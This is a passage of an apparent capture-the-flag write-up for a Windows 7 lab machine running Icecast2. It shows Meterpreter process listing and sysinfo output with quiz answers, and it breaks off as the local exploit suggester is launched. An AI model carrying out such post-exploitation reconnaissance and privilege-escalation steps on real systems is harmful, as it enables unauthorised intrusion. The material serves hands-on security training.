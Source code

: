 ```
 416   4     smss.exe
 500   692   svchost.exe
 544   536   csrss.exe
 588   692   svchost.exe
 592   536   wininit.exe
 604   584   csrss.exe
 652   584   winlogon.exe
 692   592   services.exe
 700   592   lsass.exe
 708   592   lsm.exe
 816   692   svchost.exe
 884   692   svchost.exe
 932   692   svchost.exe
 1008  816   WmiPrvSE.exe
 1016  692   svchost.exe
 1020  692   vds.exe
 1052  692   svchost.exe
 1188  692   svchost.exe
 1292  692   sppsvc.exe
 1300  500   dwm.exe               x64   1        Dark-PC\Dark  C:\Windows\System32\dwm.exe
 1316  1288  explorer.exe          x64   1        Dark-PC\Dark  C:\Windows\explorer.exe
 1368  692   spoolsv.exe
 1396  692   svchost.exe
 1452  692   taskhost.exe          x64   1        Dark-PC\Dark  C:\Windows\System32\taskhost.exe
 1564  692   amazon-ssm-agent.exe
 1640  692   LiteAgent.exe
 1680  692   svchost.exe
 1820  692   Ec2Config.exe
 2036  500   Defrag.exe
 2060  692   svchost.exe
 2280  1316  Icecast2.exe          x86   1        Dark-PC\Dark  C:\Program Files (x86)\Icecast2 Win32\Icecast2.exe
 2472  544   conhost.exe
 2480  692   TrustedInstaller.exe
 2576  692   SearchIndexer.exe
 2640  604   conhost.exe           x64   1
 2676  692   taskhost.exe          x64   1
 2716  816   rundll32.exe          x64   1        Dark-PC\Dark  C:\Windows\System32\rundll32.exe
 2744  2716  dinotify.exe          x64   1        Dark-PC\Dark  C:\Windows\System32\dinotify.exe
```
**Answer**: `Dark`
### What build of Windows is the system?
```
meterpreter > sysinfo 
Computer        : DARK-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```
**Answer**: `7601`
### What is the architecture of the process we're running?
**Answer**: `x64`
###  What is the full path for the first returned exploit from the local exploit suggester?
```
meterpreter > run post/multi/recon/local_exploit_suggester

[*] 10.10.170.20 - Collecting local exploits for x86/windows...
```